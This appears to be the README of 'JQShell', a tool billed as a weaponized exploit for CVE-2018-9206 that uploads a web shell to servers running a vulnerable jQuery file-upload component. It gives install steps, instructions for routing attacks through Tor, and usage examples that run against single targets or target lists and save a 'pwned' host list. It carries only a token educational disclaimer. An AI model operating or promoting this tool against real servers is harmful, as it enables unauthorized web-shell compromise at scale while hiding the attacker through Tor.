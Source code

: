 **Disclaimer**

Using this agianst servers you dont control, is illegal in most countries.
The author claims no responsibility for the actions of those who use this software for illegal purposes.
This software is intended for educational use only.
No servers were illegally pwned in the macking of this software.

**JQShell** A weaponized version of CVE-2018-9206.

**Features**

Single Target
Multi Target
Tor

**Prerequisites**

Please install these required packages.

**Python3**

```shell
pip3 install requests pysocks subprocess stem
```
**Tor Control Port**

To use tor, in this script, you must edit your torrc file and enable tor control port on 9051.

Typically this file is here: /etc/tor/torrc

open this file and change this line:

#ControlPort 9051

to

ControlPort 9051

restart tor service

**Usage**

```shell
usage: jqshell.py [-h] [-l LIST_INIT] [-t SINGLE_TARGET] -s SHELL_LOC
                  [-o OUTPUTZ] [-tor]

optional arguments:
  -h, --help            show this help message and exit
  -l LIST_INIT, --list LIST_INIT
                        Select for a list of assets to exploit
  -t SINGLE_TARGET, --target SINGLE_TARGET
                        Single exploit target
  -s SHELL_LOC, --shell SHELL_LOC
                        This is required, put the fullpath to your shell
  -o OUTPUTZ, --output OUTPUTZ
                        This is full path to were you want to save your list
                        of confirmed hosts
  -tor, --tor_proxy     Select if you have tor installed, you will need to
                        enable control port
```
**Examples**

Running agianst single target.
```shell
python3 jqshell.py -t localhost/folderwerejqueryis -s /var/www/html/shell.php
```
Running agianst single target, with saving output.
```shell
python3 jqshell.py -t localhost/folderwerejqueryis -s /var/www/html/shell.php -o /pwned.txt
```
Running a list, with saving output.
```shell
python3 jqshell.py -l /opt/jquery/test.txt -s /var/www/html/shell.php -o /pwned.txt
```
**Author**

* **Joshua Whitaker** 
* *Twitter* [@_Stahlz](https://twitter.com/_Stahlz)
* *Email* - [stahl@stahl.io](stahl@stahl.io)
* *Website* - [stahl.io](http://stahl.io)



